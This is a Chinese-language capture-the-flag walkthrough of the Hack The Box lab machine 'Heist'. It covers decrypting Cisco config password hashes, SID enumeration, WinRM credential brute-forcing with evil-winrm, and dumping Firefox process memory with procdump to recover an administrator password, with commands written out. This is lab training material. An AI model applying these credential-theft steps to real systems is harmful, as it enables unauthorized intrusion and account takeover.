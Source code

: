 ```yaml
---
title: hackthebox-Heist
mathjax: false
date: 2019-11-03 20:19:09
categories:
 - 渗透测试
 - hackthebox
tags:
 - hackthebox
---
```


![](/img/heist/1.png)

不同用户名可能对应相同的密码

<!-- more -->

* `nmap`扫描，`-p1-65535`，得到端口`80`、`135`、`445`、`5985`、`49668`

```
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
5985/tcp  open  wsman
49668/tcp open  unknown
```

* 查看`http://10.10.10.149`，在`Login as guest`中下载`Attachment`的`config.txt`

![](/img/heist/2.png)

![](/img/heist/3.png)

```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0 mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

* `config.txt`中提到Cisco的3个密码，2个为`type7`可直接解密，1个为`type5`使用`hashcat`解密；同时搜集到三个用户名`rout3r`、`admin`、`Hazard`，推测`Hazard`和`type5`的密码`stealth1agent`有关

* 使用[`impacket`](https://github.com/SecureAuthCorp/impacket)的`lookupsid.py`搜索其它用户名，发现`support`、`Chase`和`Jason`
  
  ```sh
  ./lookupsid.py Hazard:stealth1agent@10.10.10.149
  ```

* 使用`evil-winrm`，用上述发现的用户名和密码组成的字典进行爆破，获得`Chase`的密码
  
  ```sh
  ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
  ```

  获得`user.txt`

![](/img/heist/4.png)

* 查看`Users`目录发现主机用户有`Administrator`、`Chase`和`Hazard`

* 枚举进程，发现`firefox`

![](/img/heist/5.png)

* 在`evil-winrm`中`upload`工具`procdump64.exe`，将`firefox`的进程内存dump下来
  ```sh
  ./Procdump64.exe -accepteula -ma 6276 firefox-6276.dmp
  ```

* 搜索内存得到新密码
  ```sh
  select-string firefox-6276.dmp -pattern "password" # login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
  ```

* 使用`evil-winrm`以`Administrator`和新密码登录，获得`root.txt`

![](/img/heist/6.png)